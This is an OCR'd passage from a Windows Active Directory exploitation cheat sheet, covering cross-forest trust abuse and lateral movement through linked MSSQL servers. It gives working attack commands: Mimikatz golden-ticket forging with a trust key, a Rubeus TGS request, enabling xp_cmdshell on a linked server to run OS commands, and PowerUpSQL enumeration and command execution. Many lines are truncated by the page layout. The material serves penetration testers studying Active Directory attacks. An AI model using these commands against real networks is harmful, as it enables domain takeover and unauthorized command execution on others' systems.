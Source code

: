 18/31

trust key as in ‘Using domain trust key’ above
Use Mimikatz to generate a TGT for the target domain using the
trust key

Kerberos::golden /user:Administrator /service:krbtgt /do

Then use Rubeus to ask a TGS for e g the CIFS service on the
target DC using this TGT
.\Rubeus.exe asktgs /ticket:c:\ad\tools\eucorp-tgt.kirbi

Now we can use the CIFS service on the target forest’s DC as the
DA of our source domain again as long as this trust was
configured to exist

Abusing MSSQL databases for lateral movement
MSSQL databases can be linked such that if you compromise one
you can execute queries or even commands! on others in the
context of a specific user sa maybe? 😙 This can even work
across forests! If we have SQL execution we can use the
following commands to enumerate database links
-- Find linked servers
EXEC sp_linkedservers
-- Run SQL query on linked server
select mylogin from openquery("dc01", 'select SYSTEM_USE
-- Enable 'xp_cmdshell' on remote server and execute com
EXEC ('sp_configure ''show advanced options'', 1; reconf
EXEC ('sp_configure ''xp_cmdshell'', 1; reconfigure') AT
EXEC ('xp_cmdshell ''whoami'' ') AT DC01

We can also use PowerUpSQL to look for databases within the
domain and gather further information on reachable databases
We can also automatically look for and execute queries or
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

19/31

commands on linked databases even through multiple layers of
database links

# Get MSSQL databases in the domain, and test connectivi
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded |
# Try to get information on all domain databases
Get-SQLInstanceDomain | Get-SQLServerInfo
# Get information on a single reachable database
Get-SQLServerInfo -Instance dcorp-mssql
# Scan for MSSQL misconfigurations to escalate to SA
Invoke-SQLAudit -Verbose -Instance UFC-SQLDEV
# Execute SQL query
Get-SQLQuery -Query "SELECT system_user" -Instance UFC-S
# Run command (requires XP_CMDSHELL to be enabled)
Invoke-SQLOSCmd -Instance devsrv -Command "whoami" |
